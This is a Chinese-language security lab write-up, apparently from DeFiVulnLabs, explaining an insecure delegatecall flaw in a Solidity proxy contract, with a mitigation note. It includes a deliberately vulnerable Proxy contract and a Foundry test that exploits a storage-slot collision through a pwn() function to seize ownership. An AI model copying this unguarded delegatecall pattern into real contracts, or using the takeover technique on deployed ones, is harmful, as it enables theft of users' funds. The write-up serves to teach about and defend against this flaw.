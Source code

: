 # 不安全委托调用
[Delegatecall.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Delegatecall.sol)  
**名称：** 不安全委托调用漏洞
**描述：**  
代理合约所有者操纵漏洞是智能合约设计中的缺陷，这种缺陷允许攻击者操纵代理合约的owner，并且将其硬编码为0xdeadbeef。  
这个漏洞的产生是由于在代理合约的回退函数中使用了delegatecall。   
delegatecall允许攻击者在代理合约上下文中从委托合约调用pwn()函数，从而改变代理合约owner状态变量的值。  
这允许智能合约在运行时从不同的地址动态加载代码。  

**场景：**  
代理合约为了帮助用户调用逻辑合约而设计的
代理合约的owner被硬编码为0xdeadbeef  
你可以操纵代理合约的owner吗？  


**修复建议：**  
为了缓解代理合约所有者操纵漏洞，除非明确要求，否则不要使用delegatecall,并确保安全的使用delegatecall。  
如果delegatecall对于合约的功能是必要的，请确保验证和清理输入以避免意外情况。  


**Proxy 合约：**  
```
contract Proxy {
    address public owner = address(0xdeadbeef); // slot0
    Delegate delegate;

    constructor(address _delegateAddress) public {
        delegate = Delegate(_delegateAddress);
    }

    fallback() external {
        (bool suc, ) = address(delegate).delegatecall(msg.data); // 漏洞
        require(suc, "Delegatecall failed");
    }
}
```     


**如何测试：**  

forge test --contracts src/test/Delegatecall.sol-vvvv 
```
// 测试使用delegatecall的场景的函数
function testDelegatecall() public {
    // 初始化一个新的委托合约，即“逻辑合约”。
    DelegateContract = new Delegate(); 
    // 初始化一个新的代理合约，将委托合约的地址传递给构造函数。这就是“代理合约”。
    proxy = new Proxy(address(DelegateContract)); 

    // 记录Alice的地址。
    console.log("Alice address", alice);
    // 记录代理合约的所有者。
    console.log("DelegationContract owner", proxy.owner());

    // 记录更改代理合约所有者操作的开始
    console.log("Change DelegationContract owner to Alice...");
    // 设置消息的发送者为Alice。
    vm.prank(alice);
    // 通过delegatecall 调用Delegate合约的pwn函数.这就是漏洞。
    address(proxy).call(abi.encodeWithSignature("pwn()")); 
    // Proxy.fallback()将委托调用Delegate.pwn(), 使得Alice成为代理合约的所有者。

    // 记录代理合约的新的所有者。
    console.log("DelegationContract owner", proxy.owner());
    // 记录漏洞攻击完成。
    console.log(
        "Exploit completed, proxy contract storage has been manipulated"
    );
}

// Delegate 合约, 包含了可以通过delegatecall调用的代码。
contract Delegate {
    // 合约的所有者。
    address public owner; // slot0

    // pwn 函数, 将合约的所有者设置为消息发送者。
    function pwn() public {
        owner = msg.sender;
    }
}
```  
**红框：** 攻击成功，owner已经更改
![Alt text](image-2.png)
